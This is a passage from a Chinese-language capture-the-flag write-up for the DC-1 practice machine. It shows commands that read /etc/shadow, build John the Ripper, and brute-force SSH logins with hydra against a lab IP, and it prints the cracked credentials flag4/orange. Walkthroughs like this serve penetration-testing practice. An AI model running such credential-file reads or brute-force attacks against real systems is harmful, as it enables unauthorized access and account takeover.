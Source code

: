 查看/etc/shadow 文件，发现flag4用户，并且flag4用户可以登录并且有密码，所以存在flag4的家目录

```
cat /etc/shadow
```

![img](靶机DC-1/20190927163259773.png)

flag4用户密码可以使用ssh登录进行爆破，如下：

```
wget http://www.openwall.com/john/j/john-1.8.0.tar.gz   #下载John密码包
tar -xvf john-1.8.0.tar.gz  #解压缩
cd john-1.8.0/ src    #进入源码目录下
uname -a  #查看当前系统版本
make linux-x86-64   #编译并指定当前的Linux系统版本
```

使用hydra+John密码包对flag4的密码进行爆破，爆破密码为：flag4/orange

```
hydra -l flag4 -P john-1.8.0/run/password.lst ssh://192.168.220.130 -f -vV -o hydraflag4.ssh



login: flag4   password: orange
```

![img](靶机DC-1/20190927163259736.png)
